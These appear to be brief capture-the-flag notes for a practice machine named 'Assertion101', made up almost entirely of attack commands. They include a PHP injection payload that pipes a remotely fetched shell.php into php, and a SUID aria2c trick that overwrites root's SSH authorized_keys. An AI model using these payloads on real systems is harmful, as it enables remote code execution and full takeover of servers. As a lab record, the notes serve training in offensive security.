 ----------------------------------------------------
# Author -> Shubham Rannpise
----------------------------------------------------
# Assertion101
# 25/2/2023

----------------------------------------------------
# LFI 
```http://192.168.141.94/index.php?page=gallery

' and die(system("curl http://<ip>/shell.php|php")) or '
```
----------------------------------------------------
# nmap result
----------------------------------------------------
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
```
----------------------------------------------------
# priv esc
----------------------------------------------------
```
find / -perm -u=s -type f 2>/dev/null 
aria2c

transfer ssh pub file in client
/usr/bin/aria2c -d /root/.ssh/ -o authorized_keys "http://192.168.49.141/id_rsa.pub" --allow-overwrite=true
```
